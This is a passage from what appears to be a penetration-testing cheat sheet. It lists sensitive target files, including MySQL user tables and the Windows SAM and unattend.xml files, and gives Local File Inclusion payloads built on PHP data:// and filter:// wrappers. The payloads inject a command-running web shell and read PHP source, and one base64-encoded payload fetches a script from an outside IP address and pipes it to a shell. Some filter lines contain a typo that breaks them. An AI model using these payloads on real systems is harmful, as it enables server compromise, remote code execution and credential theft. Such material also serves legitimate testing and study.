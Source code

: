 ## MySQL

```
/var/lib/mysql/mysql/user.frm
/var/lib/mysql/mysql/user.MYD
/var/lib/mysql/mysql/user.MYI
```

## Windows

```
/boot.ini
/autoexec.bat
/windows/system32/drivers/etc/hosts
/windows/repair/SAM
/windows/panther/unattended.xml
/windows/panther/unattend/unattended.xml
/windows/system32/license.rtf
/windows/system32/eula.txt
```

# Local File Inclusion (LFI)

Its similar to Path Traversal but not exactly the same, the difference is, in file inclusion if we include a **PHP** it will be interpreted and executed while in path traversal not.

## PHP Wrappers

PHP provides several protocols wrappers that we can use to exploit path traversal and local file inclusion vulnerabilities. These filters give us additional flexibility when attempting to inject PHP code via LFI vulnerabilities.

### Wrapper data://

Used to embed inline data as part of the URL with plaintext or base64.

```
/include.php?file=data:text/plain,<?php system($_GET["cmd"]);?>&cmd=id
/include.php?file=data:,<?php system($_GET["cmd"]);?>&cmd=id
/include.php?file=data:;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4=&cmd=id
/include.php?file=data:application/x-httpd-php;charset=utf-8;base64,PD9waHAgZXhlYygnY3VybCBodHRwOi8vMTAuMjEyLjEzNC4yOjQ0My9pc2VjLnNoIHwgc2gnKSA/Pg==
```

### Wrapper filter://

Used to encode/convert files. Usefull to read php files. The part of `php://filte`r is case insensitive.

```
/include.php?file=php://filter/read=string.rot13/resource=file.php
/include.php?file=php://filter/conver.base64-encode/resource=file.php
/include.php?file=pHp://Filter/conver.base64-encode/resource=file.php
/include.php?file=php://filter/zlib.deflate/convert.base64-encode/resource=file.php
```
